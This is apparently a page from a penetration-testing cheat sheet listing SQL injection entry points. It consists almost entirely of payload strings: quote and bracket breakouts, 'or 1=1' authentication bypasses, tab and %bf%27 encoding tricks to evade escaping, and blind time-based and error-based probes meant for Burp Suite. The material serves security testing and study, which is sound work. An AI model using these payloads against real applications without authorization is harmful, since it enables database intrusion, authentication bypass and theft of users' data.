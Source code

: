 # Entry point (SQLi)

## In-band

{% tabs %}
{% tab title="Entry point" %}
```sql
1 <QUERY>
-1 <QUERY>
1' <QUERY>
1" <QUERY>
` <QUERY>
1') <QUERY>
1") <QUERY>
1`) <QUERY>
1')) <QUERY>
1")) <QUERY>
1`)) <QUERY>
-1' <QUERY>
# Use the following payloads in Burpsuite:
'%09or%091=1--%09- # Obfuscate spaces by tabs in URL Encode
'||1=1# # We do not use spaces and use the hastag (#).

# Obfuscate the quotation mark. By using the string \xBF (encoded in the
# URL as %bf%27), it is possible to obtain a single quotation mark that will
# not be properly escaped:
%bf%27 or 1=1-- -

# Confirming with logical operations
1 or 1=1-- - # true
and 1=2-- - # false
or 1=2-- - # false
-1 and 1=1-- - # false, generating an error
```
{% endtab %}

{% tab title="Queries" %}
```sql
or 1=1-- -
or '1'='1-- -
or '1'='1
or 1=1;-- -
or "1"="1-- -
or 1=1 LIMIT 1;-- - # Test from 1 to 5.
```
{% endtab %}
{% endtabs %}

## Blind

{% hint style="info" %}
Replace the tag `<SLEEP>` with the sleep function that corresponds to the DBMS type.
{% endhint %}

```bash
# Time:
' || <SLEEP>
' || <SLEEP>-- -
' AND <SLEEP>-- -
or <SLEEP>
' <SLEEP>-- -
# Conditionals errors:
' || (SELECT '') ||'
' || (SELECT '') ||'-- -
|| (SELECT '') ||'-- -
' || (SELECT '' FROM DUAL) ||'-- -
(select(0)from(select(sleep(0)))v)
```
